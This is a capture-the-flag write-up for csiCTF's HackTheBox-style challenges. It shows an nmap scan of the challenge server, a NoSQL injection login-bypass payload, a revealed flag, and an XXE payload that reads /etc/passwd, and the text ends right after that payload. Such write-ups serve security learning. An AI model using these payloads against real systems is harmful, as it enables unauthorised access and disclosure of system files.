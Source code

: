 ```yaml
---
layout: post
title: "HTB 0x[2-6]"
author: "INXS_JOY and shreyas-sriram"
tags: ['Linux']
---
```


Server is at 34.93.215.188.

## Solution
>Welcome to the interesting part of the csiCTF, HTB. xD

### <a name="htb0x2"></a>HTB 0x2

* This is a HackTheBox-like challenge, the server's `IP address` is given
* Run a simple port scan using `nmap`<br/>

```s
$ nmap -sC -sV 34.93.215.188 -Pn
```

* This reveals the following open ports<br/>

```
22/tcp     open       ssh
3000/tcp   open       http
```

* Notice `http port 3000`
* Visiting [http://34.93.215.188:3000/](http://34.93.215.188:3000/), we see a login form
* Trying `SQL Injection (SQLi)`, nothing happens (although another vulnerability exists - `XSS`)
* Then trying `NoSQL Injection`, we are logged in successfully<br/>

**Payload**
```
# Use in POST parameter
username[$ne]=f4ke&password[$ne]=fl4g
```
                                                                                                                                                                                            
* Visiting `/robots.txt`, we see `/admin` is disallowed                                                                                                                                     
* Visit `/admin` and get the flag `csictf{n0t_4ll_1nj3ct10n5_4re_SQLi}` in the source code                                                                                                  
                                                                                                                                                                                            
                                                                                                                                                                                            
### <a name="htb0x5"></a>HTB 0x5

* As seen in write-up [HTB 0x2](#htb0x2), there is an `/admin` page
* This page is vulnerable to `XML External Entity (XXE) Injection`
* The vulnerability can be confirmed by using the `XXE detection payload`<br/>

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

```
